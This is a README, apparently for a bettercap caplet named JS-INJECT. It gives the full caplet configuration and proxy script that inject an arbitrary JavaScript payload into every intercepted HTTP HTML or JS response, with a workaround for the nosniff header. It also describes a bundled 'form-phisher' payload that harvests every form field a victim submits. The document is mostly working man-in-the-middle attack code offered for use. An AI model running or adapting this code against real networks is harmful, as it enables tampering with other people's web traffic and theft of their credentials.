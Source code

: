 ### JS-INJECT

A simple yet powerful proxy module that lets you inject your JavaScript payloads into any HTTP web page/application.

It prevents re-initiation of your script when it's already active in the DOM by declaring your payload as a unique function variable, and in some cases ignores the `X-Content-Type-Options: nosniff` header by checking for both `Content-Type` headers and file extensions.

All you have to do is set your payload path in the caplet file.

**caplets/jsinject/jsinject.cap**

```sh
# Set the path to your JavaScript payload
set jsinject.payload caplets/jsinject/payloads/form-phisher.js

set http.proxy.script caplets/jsinject/jsinject.js
set net.sniff.verbose false
net.sniff on
http.proxy on
```

**caplets/jsinject/jsinject.js**

```javascript
var session_id,
    payload,
    payload_path,
    payload_container = "" + 
    	"if (!self.{{session_id}}) {\n" + 
    		"var {{session_id}} = function() {\n" + 
    			"{{payload}}\n" + 
    		"}\n" + 
    		"{{session_id}}();\n" + 
    	"}\n"

var green = "\033[32m",
    bold  = "\033[1;37m",
    reset = "\033[0m"

function randomString(length) {
	var chars  = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz",
	    buffer = ""
	while (buffer.length < length) {
		index = parseInt( Math.random() * chars.length )
		buffer = buffer + chars.charAt(index)
	}
	return buffer
}

function configure() {
	payload_path = env("jsinject.payload").replace(/\s*/g, "")
	payload = readFile(payload_path)
	payload = payload_container.replace("{{payload}}", payload).replace(/\{\{session_id\}\}/g, session_id)
}

function onLoad() {
	session_id = randomString( 4 + parseInt( Math.random() * 16 ) )
	configure()
	log_info(green + "jsinject" + reset + " started injecting payload " + bold + payload_path + reset + " into HTTP traffic.")
	log_info(green + "jsinject" + reset + " session ID is " + bold + session_id + reset + ".")
}

function onResponse(req, res) {
	configure()
	if ( res.ContentType.match(/^text\/html/i) || req.Path.replace(/\?.*/i, "").match(/\.(htm|html)$/i) ) {
		res.ReadBody()
		log_debug("(" + green + "jsinject" + reset + ") attempting to inject HTML document in " + bold + req.Hostname + reset + " ...")
		res.Body = res.Body.replace(/<head>/i, "<head><script>" + payload + "</script>")
	}
	if ( res.ContentType.match(/^text\/javascript/i) || res.ContentType.match(/^application\/javascript/i) || req.Path.replace(/\?.*/i, "").match(/\.js$/i) ) {
		res.ReadBody()
		log_debug("(" + green + "jsinject" + reset + ") attempting to inject JS document in " + bold + req.Hostname + reset + " ...")
		res.Body = payload + res.Body
	}
}
```

<hr>

### Included payload

<a href="./payloads/form-phisher.js">form-phisher.js</a> is included, which will wait for the victim to press a key before binding to the enter key, mouse click/screen tap and submit event in order to phish all the fields. This can be useful when you want to sniff proxied forms that are submitted over HTTPS, don't use URL parameters, etc.

